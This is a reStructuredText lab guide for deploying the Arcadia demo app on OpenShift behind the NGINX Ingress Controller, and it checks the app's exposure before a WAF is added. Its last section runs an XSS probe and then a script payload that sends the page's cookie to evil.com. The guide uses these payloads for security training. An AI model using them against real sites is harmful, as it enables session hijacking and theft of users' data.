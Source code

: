 Access Arcadia app without NGINX App Protect to establish a baseline
------------------------------------------------


Deploy the Arcadia Application into Kubernetes
#######################################################

   .. note::  The Arcadia Financial application is the same application we introduced in Module 1, but a different version with enhanced features which will be used for our security lab exercises.


   Before we can access the Arcadia application, we need to deploy it into our Kubernetes cluster. To do this, we'll use a single manifest file that contains the necessary resources, such as Kubernetes deployments for the four Docker containers and Kubernetes services for the four Docker containers.

   To get the YAML file, we'll use the following command in our terminal window:

   .. code-block:: bash

    wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml

   Once we have the YAML file, we can apply it to our Kubernetes cluster with the following command:

   .. code-block:: bash

      oc apply -f ./arcadia-all.yaml


   We can check that our Arcadia application is running by using the following command in our terminal window:

   .. code-block:: bash

      oc get services

   This will show us the services running in our Kubernetes cluster, including those related to the Arcadia application.

Export the NGINX Ingress Controller services
#######################################################

    Interacting with the NGINX Ingress Controller is more comfortable with exporting the service External IPs into system variables. This allows for templating to take place when we expose our applications.

    In the terminal window copy the below text and paste+enter:

    .. code-block:: bash

       export nginx_ingress=$(oc get svc my-nginx-ingress-controller-nginx-ingress --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")


Publish Arcadia app with NGINX Plus Ingress Controller
########################################################

   Now that we have our Arcadia application deployed in our Kubernetes cluster, we need to publish it using the NGINX Plus Ingress Controller. We'll do this by re-creating the NGINX Ingress Controller with Basic HTTP using the following command in our terminal window:

   .. literalinclude :: templates/ingress-arcadia.yml
      :language: yaml

   This command creates a VirtualServer resource for our Arcadia application, which includes the host for the NGINX Ingress Controller and the upstreams for the different microservices. We can now access our Arcadia application externally using the NGINX Ingress Controller URL, which can be found by running the following command in our terminal window:

       .. code-block:: bash

         echo "NGINX Ingress Controller URL: http://$nginx_ingress/"

   Once we have the URL, we can access our Arcadia application by opening it in a web browser.


   You should be presented with the Main page, click on Login and enter the credentials as below.

   .. code-block:: 

      Username: matt
      Password: ilovef5

   When you click on Log me in, you should be presented with Arcadia application that consist of four microservices


   .. image:: ./pictures/image10.png
      :align: center

   Congratulations!

   You have now successfully deployed the application in K8s cluster and published it externally using the NGINX Plus Ingress controller


Is our application protected against Layer 7 attacks?
######################################################
 
Before we can protect our Arcadia application with NGINX App Protect, we need to check if it's currently vulnerable to Layer 7 attacks. We can do this by executing a simple XSS attack, which is a well-known OWASP top 10 attack.

To perform the XSS attack, we can launch the Firefox browser and append ``?a=<script>`` to the end of the application URL. If the request is allowed, then our application is vulnerable to XSS attacks.

.. image:: ./pictures/image11.png
   :align: center

We can further test this by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, which will attempt to steal our document cookie. If this request is also allowed, then a bad actor could potentially steal sensitive information from our application user

.. image:: ./pictures/image12.png
   :align: center

Since our application is currently vulnerable to Layer 7 attacks, we'll need to protect it using NGINX App Protect in the following Lab.

